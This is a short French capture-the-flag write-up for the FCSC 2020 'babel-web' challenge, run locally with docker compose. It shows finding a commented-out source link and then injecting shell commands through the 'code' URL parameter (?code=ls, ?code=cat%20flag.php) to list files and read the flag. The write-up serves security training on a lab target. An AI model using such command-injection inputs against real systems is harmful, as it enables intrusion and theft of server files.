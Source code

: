 # ETAPE 1:
Pour commencer, téléchargez le fichier docker-compose.yml :
curl https://hackropole.fr/challenges/fcsc2020-web-babel-web/docker-compose.public.yml -o docker-compose.yml
# ETAPE 2:
Lancez l'épreuve en exécutant dans le même dossier :
docker compose up
# ETAPE 3:
Accéder à l'épreuve à l'adresse http://localhost:8000/.
# ETAPE 4:
  Nous pouvons avoir un peu plus d'information avec extention wappalyzer
  OS:DEBIAN
  WEB: Apache 2.4.54
  PHP: 7.4.33
  
  Le premier constat est que le site n'est pas sécurisé (HTTPS)
  
  Avec le mode debugeur de EDGE (F12), nous avons une section en commentaire
    <!-- <a href="?source=1">source</a> -->
  Il faut decommenter cette section : <a href="?source=1">source</a>
  Reactualisez la page, nous avons maintenant un lien sources
  
  Acceder sur le site http://localhost:8000/?code=ls
    la cmd ls permet de lister les fichiers sous linux via la variable code
  le resultat est deux fichiers qui s'affichent dans votre navigateur 
    flag.php
    index.php
  Acceder mainteant http://localhost:8000/?code=cat%20flag.php
    la cmd cat permet afficher le contenu et  la chaine de caractères %20 pour remplacer l’espace dans l’url
  Nous pouvons recuperer le $flad dans le debugeur du navigateur
